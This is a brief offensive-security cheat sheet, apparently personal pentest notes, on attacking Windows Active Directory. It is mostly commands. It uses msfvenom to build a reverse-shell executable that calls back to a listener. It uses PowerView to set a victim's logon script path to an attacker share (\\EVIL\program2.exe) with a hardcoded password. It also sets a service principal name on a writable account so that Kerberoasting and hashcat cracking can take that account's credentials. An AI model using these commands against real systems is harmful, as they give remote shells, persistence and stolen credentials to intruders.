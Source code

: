 ## Building the EXE using msfvenom:
```bash
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.43.100 LPORT=4444 -f exe > privesc.exe
```

## create a shared folder and add it there and allow everyone to access it
```bash
Get-DomainUser -Identity testuser -Properties scriptpath

$SecPassword = ConvertTo-SecureString 'Password123!'-AsPlainText -Force 

$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword) 

Set-DomainObject -Identity testuser -Set @{'scriptpath'='\\EVIL\program2.exe'}  -Credential $Cred -Verbose 

Get-DomainUser -Identity testuser -Properties scriptpath
```

# SET-SPN - Kerberoast

look for account
- generic write access
- generic all access

then u can set the SPN

```bash
. .\Invoke-Kerberoast.ps1
invoke-kerberoast 
# if didnt work look for account u have generic write on it
.\Powerview.ps1
Get-ObjectAcl -SamAcc...

Get-DomainUser -Identity hadams | selsct serviceprincipalname
Set-DomainObject -Identity hadams -Set @{serviceprincipalname='ops/whatever1'}
Get-DomainUser -Identity hadams | selsct serviceprincipalname

. .\Invoke-Kerberoast.ps1
invoke-kerberoast 

# break it with hashcat
invoke-kerberoast  -OutputFormat Hashcat > hash.txt

. .\Powerview.ps1
Get-DomainUser -SamAccountName hadams
Get-DomainComputer
```
